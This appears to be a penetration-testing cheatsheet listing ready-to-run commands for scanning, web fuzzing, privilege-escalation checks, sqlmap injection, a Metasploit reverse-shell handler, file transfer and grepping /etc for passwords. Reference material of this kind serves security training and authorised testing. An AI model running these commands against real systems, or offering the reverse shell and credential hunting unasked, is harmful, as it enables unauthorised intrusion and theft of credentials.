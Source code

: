 # Offensive Security Cheatsheet 🚀

*"Knowledge is power. Share it wisely." - Unknown*

## 🔍 Scanning & Enumeration

### Nmap
```bash
# Basic TCP scan
nmap -sV -sC -oA scan_results <TARGET_IP>
```

Masscan

```bash
# Blazing fast scan
masscan -p1-65535 <TARGET_IP> --rate=1000 -e tun0
```

🕵️‍♂️ Web Enumeration

FFUF (Web Fuzzing)

```bash
# Directory brute-forcing
ffuf -w /path/to/wordlist -u http://<TARGET>/FUZZ -mc 200 -fs 4242
```
```bash
# Vhost discovery
ffuf -w subdomains.txt -u http://<TARGET> -H "Host: FUZZ.<TARGET>" -fs 0
```
Gobuster

```bash
gobuster dir -u http://<TARGET> -w /usr/share/wordlists/dirb/common.txt -x php,html
```

🔑 Privilege Escalation
Linux PrivEsc


```bash
# SUID finder
find / -perm -4000 -type f 2>/dev/null
```
```bash
# Kernel exploits
uname -a; searchsploit <kernel_version>
```
Windows PrivEsc


```powershell
# Service permissions
accesschk.exe /accepteula -uwcqv *
```
```powershell
# AlwaysInstallElevated check
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

🛠️ Exploitation


Metasploit

```bash
# Basic workflow
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_IP>
exploit
```
SQL Injection

```bash
sqlmap -u "http://site.com/page?id=1" --risk=3 --level=5 --batch
```

📦 Post-Exploitation

File Transfers

```bash
# Python HTTP server
python3 -m http.server 8000
```
```bash
# SCP download
scp user@target:/path/to/file .
```
Credential Hunting

```bash
# Find passwords in files
grep -riE 'password|passwd|cred' /etc/ 2>/dev/null
```

📚 Resources

GTFOBins

PayloadsAllTheThings

HackTricks
